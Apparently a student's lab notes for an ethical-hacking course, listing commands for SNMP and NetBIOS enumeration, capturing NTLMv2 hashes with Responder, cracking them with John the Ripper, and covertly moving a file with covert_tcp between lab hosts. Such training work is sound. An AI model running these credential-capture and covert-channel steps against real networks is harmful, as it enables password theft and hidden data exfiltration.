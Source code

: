 **Module 04: Enumeration**

**Lab2-Task1: Enumerate SNMP using snmp-check**

- nmap -sU -p 161 [IP]
- **snmp-check [IP]**

**Addition**

- nbtstat -a [IP] (Windows)
- nbtstat -c

**Module 06: System Hacking**

**Lab1-Task1: Perform Active Online Attack to Crack the System&#39;s Password using Responder**

- **Linux:**
  - cd
  - cd Responder
  - chmox +x ./Responder.py
  - **sudo ./Responder.py -I eth0**
  - passwd: \*\*\*\*
- **Windows**
  - run
  - \\CEH-Tools
- **Linux:**
  - Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
  - sudo snap install john-the-ripper
  - passwd: \*\*\*\*
  - **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

**Lab3-Task6: Covert Channels using Covert\_TCP**

- **Attacker:**
  - cd Desktop
  - mkdir Send
  - cd Send
  - echo &quot;Secret&quot;->message.txt
  - Place->Network
  - Ctrl+L
  - **smb://[IP]**
  - Account &amp; Password
  - copy and paste covert\_tcp.c
  - **cc -o covert\_tcp covert\_tcp.c**
- **Target:**
  - **tcpdump -nvvx port 8888 -I lo**
  - cd Desktop
  - mkdir Receive
  - cd Receive
  - File->Ctrl+L
  - smb://[IP]
  - copy and paste covert\_tcp.c
  - cc -o covert\_tcp covert\_tcp.c
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  - **Tcpdump captures no packets**
- **Attacker**
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  - Wireshark (message string being send in individual packet)
